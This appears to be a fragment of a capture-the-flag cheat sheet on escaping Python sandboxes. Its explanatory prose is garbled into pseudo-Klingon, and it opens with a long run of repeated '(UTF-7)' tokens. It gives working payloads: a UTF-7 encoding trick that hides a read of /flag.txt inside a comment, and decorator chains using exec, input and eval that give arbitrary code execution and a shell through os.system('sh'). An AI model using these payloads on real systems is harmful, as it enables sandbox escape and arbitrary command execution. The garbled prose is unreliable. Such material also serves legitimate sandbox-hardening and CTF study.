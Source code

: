 (UTF-7)  (UTF-7)  (UTF-7)  (UTF-7)  (UTF-7)  (UTF-7)  (UTF-7)  (UTF-7)  (UTF-7)  (UTF-7)  (UTF-7)  (UTF-7)  (UTF-7)  (UTF-7)  (UTF-7)  (UTF-7)  (UTF-7)  (UTF-7)  (UTF-7)  (UTF-7)  (UTF-7)  (UTF-7)  (UTF-7)  (UTF-7)  (UTF-7)  (UTF-7)  (UTF-7)  (UTF-7)  (UTF-7)  (UTF-7)  (UTF-7)  (UTF-7)  (UTF-7)  (UTF-7)  (UTF-7)  (UTF-7)  (UTF-7)  (UTF-7)  (UTF-7)  (UTF-7)  (UTF-7)  (UTF-7)  (UTF-7)  (UTF-7)  (UTF-7)  (UTF-7)  (UTF-7)  (UTF-7)  (UTF-7)  (UTF-7)  (UTF-7)  (UTF-7)  (UTF-7)  (UTF-7)  (UTF-7)  (UTF-7)  (UTF-7)  (UTF-7)  (UTF-7)  (UTF-7)  (UTF-7)  (UTF-7)  (UTF-7)  (UTF-7)  (UTF-7)  (UTF-7)  (UTF-7)  (UTF-7)  (UTF-7)  (UTF-7)  (UTF-7)  (UTF-7)  (UTF-7)  (UTF-7)  (UTF-7)  (UTF-7)  (UTF-7)  (UTF-7)  (UTF-7)  (UTF-7)  (UTF-7)  (UTF-7)  (UTF-7)  (UTF-7)  (UTF-7)  (UTF-7)  (UTF-7)  (UTF-7)  (UTF-7)  (UTF-7)  (UTF-7)  (UTF-7)  (UTF-7)  (UTF-7)  (UTF-7)  (UTF-7)  (UTF-7)  (UTF-7)  (UTF-7)  (UTF-7)  (UTF-7)  (UTF-7)  (UTF-7)  (UTF-7)  (UTF-7)  (UTF-7)  (UTF-7)  (UTF-7)  (UTF-7)  (UTF-7)  (UTF-7)  (UTF-7)  (UTF-7)  (UTF-7)  (UTF-7)  (UTF-7)  (UTF-7)  (UTF-7)  (UTF-7)  (UTF-7)  (UTF-7)  (UTF-7)  (UTF-7)  (UTF-7)  (UTF-7)  (UTF-7)  (UTF-7)  (UTF-7)  (UTF-7)  (UTF-7)  (UTF-7)  (UTF-7)  (UTF-7)  (UTF-7)  (UTF-7)  (UTF-7)  (UTF-7)  (UTF-7)  (UTF-7)  (UTF-7)  (UTF-7)  (UTF-7)  (UTF-7)  (UTF-7)  (UTF-7)  (UTF-7)  (UTF-7)  (UTF-7)  (UTF-7)  (UTF-7)  (UTF-7)  (UTF-7)  (UTF-7)  (UTF-7)  (UTF-7)  (UTF-7)  (UTF-7)  (UTF-7)  (UTF-7)  (UTF-7)  (UTF-7)  (UTF-7)  (UTF-7)  (UTF-7)  (UTF-7)  (UTF-7)  (UTF-7)  (UTF-7)  (UTF-7)  (UTF-7)  (UTF-7)  (UTF-7)  (UTF-7)  (UTF-7)  (UTF-7)  (UTF-7)  (UTF-7)  (UTF-7)  (UTF-7)  (UTF-7)  (UTF-7)  (UTF-7)  (UTF-7)  (UTF-7)  (UTF-7)  (UTF-7)  (UTF-7)  (UTF-7)  (UTF-7)  (UTF-7)  (UTF-7)  (UTF-7)  (UTF-7)  (UTF-7)  (UTF-7)  (UTF-7)  (UTF-7)  (UTF-7)  (UTF-7)  (UTF-7)  (UTF-7)  (UTF-7)  (UTF-7)  (UTF-7)  (UTF-7)  (UTF-7)  (UTF-7)  (UTF-7)  (UTF-7)  (UTF-7)  (UTF-7)  (UTF-7)  (UTF-7)  (UTF-7)  (UTF-7)  (UTF-7)  (UTF-7)  (UTF-7)  (UTF-7)  (UTF-7)  (UTF-7)  (UTF-7)  (UTF-7)  (UTF-7)  (UTF-7)  (UTF-7)  (UTF-7)  (UTF-7)  (UTF-7)  (UTF-7)  (UTF-7)  (UTF-7)  (UTF-7)
```python
assert b"+AAo-".decode("utf_7") == "\n"

payload = """
# -*- coding: utf_7 -*-
def f(x):
return x
#+AAo-print(open("/flag.txt").read())
""".lstrip()
```
**ghItlhvam** vItlhutlh **encodings** **bypass** **luq** **'ej** `raw_unicode_escape` **'ej** `unicode_escape`.

## **Python** **execution** **jatlh** **ghItlhvam** **jail** **'ej** **jatlh** **'e'** **jatlh** **luq** **'ej** **code** **'ej** **commands** **'ej** **execute** **arbitrary functions**.

### RCE **[decorators](https://docs.python.org/3/glossary.html#term-decorator)** **vItlhutlh**
```python
# From https://ur4ndom.dev/posts/2022-07-04-gctf-treebox/
@exec
@input
class X:
pass

# The previous code is equivalent to:
class X:
pass
X = input(X)
X = exec(X)

# So just send your python code when prompted and it will be executed


# Another approach without calling input:
@eval
@'__import__("os").system("sh")'.format
class _:pass
```
### RCE creating objects and overloading